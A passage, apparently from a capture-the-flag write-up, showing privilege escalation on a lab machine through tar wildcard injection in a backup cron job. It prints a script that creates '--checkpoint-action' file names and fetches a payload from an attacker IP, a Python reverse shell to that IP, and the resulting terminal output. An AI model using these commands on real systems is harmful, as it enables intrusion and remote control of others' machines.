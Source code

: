 Simple script to automate exploitation:

```
#!/bin/bash

echo '' > '--checkpoint=1'
echo '' > '--checkpoint-action=exec=/bin/cat shell.sh | bash' 
wget <ip-address>:8888/shell.sh
```

shell.sh:               &#x20;

```
#!/bin/bash

python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip-address>",5555));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

```

```
wget <ip-address>:8888/get_kyle.sh 
--2022-08-15 19:51:28--  http://<ip-address>:8888/get_kyle.sh
Connecting to <ip-address>:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 129 [text/x-sh]
Saving to: ‘get_kyle.sh’

get_kyle.sh         100%[===================>]     129  --.-KB/s    in 0s      

2022-08-15 19:51:28 (19.1 MB/s) - ‘get_kyle.sh’ saved [129/129]

www-data@seasurfer:/var/www/internal/invoices$ chmod +x get_kyle.sh 
www-data@seasurfer:/var/www/internal/invoices$ ./get_kyle.sh 
--2022-08-15 19:53:25--  http://<ip-address>/shell.sh
Connecting to <ip-address>:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 218 [text/x-sh]
Saving to: ‘shell.sh’

shell.sh            100%[===================>]     218  --.-KB/s    in 0s      

2022-08-15 19:53:25 (31.6 MB/s) - ‘shell.sh’ saved [218/218]

www-data@seasurfer:/var/www/internal/invoices$
```

And we got shell as kyle:

```
2022/08/15 20:03:01 CMD: UID=1000 PID=51531  | /bin/bash /var/www/internal/maintenance/backup.sh 
2022/08/15 20:03:01 CMD: UID=1000 PID=51530  | /bin/bash /var/www/internal/maintenance/backup.sh 
2022/08/15 20:03:01 CMD: UID=1000 PID=51533  | tar -zcf /home/kyle/backups/invoices.tgz 15082022-Ain1I9A2NXwInad4ERNn.pdf 15082022-AjK4hPnVGMFZ4hhN4NSf.pdf 15082022-BxeRph3dXKSx1LlQCSLr.pdf 15082022-DoVcdTzWD5B9
eGVGlW0W.pdf 15082022-DTZ1NAwap2F4LocHf3WW.pdf 15082022-gqyhTtave0wn8otRJ9Vi.pdf 15082022-H5bpwT5GsrZdlAIxc36u.pdf 15082022-lbJhTcwuHeh32kHs0pOB.pdf 15082022-qTt1Xl2wQpeZFR85xpDc.pdf 15082022-rOJ4ZampV4HGMsah95l
6.pdf 15082022-VcT2uo31DQcrvpCgIcj9.pdf 15082022-WBIyrN28cWOoYfAoPZVZ.pdf 15082022-WScCqk4Cq43M4xTAn0F6.pdf 18042022-lUIvPaOVZIJQarZO7wHP.pdf 18042022-SZEAfjkefOWOLzNG0nBF.pdf 18042022-x7nvKzdxwDPtGvg3hexH.pdf 1
9042022-P8SghZ3qVclByyfsSm4c.pdf 19042022-RuQkG8SZaxQc6vyw7BCv.pdf 22042022-NNod4XQ0usiYmPZOVASm.pdf --checkpoint=1 --checkpoint-action=exec=cat shell.sh | bash get_kyle.sh shell.sh 
2022/08/15 20:03:01 CMD: UID=1000 PID=51532  | tar -zcf /home/kyle/backups/invoices.tgz 15082022-Ain1I9A2NXwInad4ERNn.pdf 15082022-AjK4hPnVGMFZ4hhN4NSf.pdf 15082022-BxeRph3dXKSx1LlQCSLr.pdf 15082022-DoVcdTzWD5B9
```
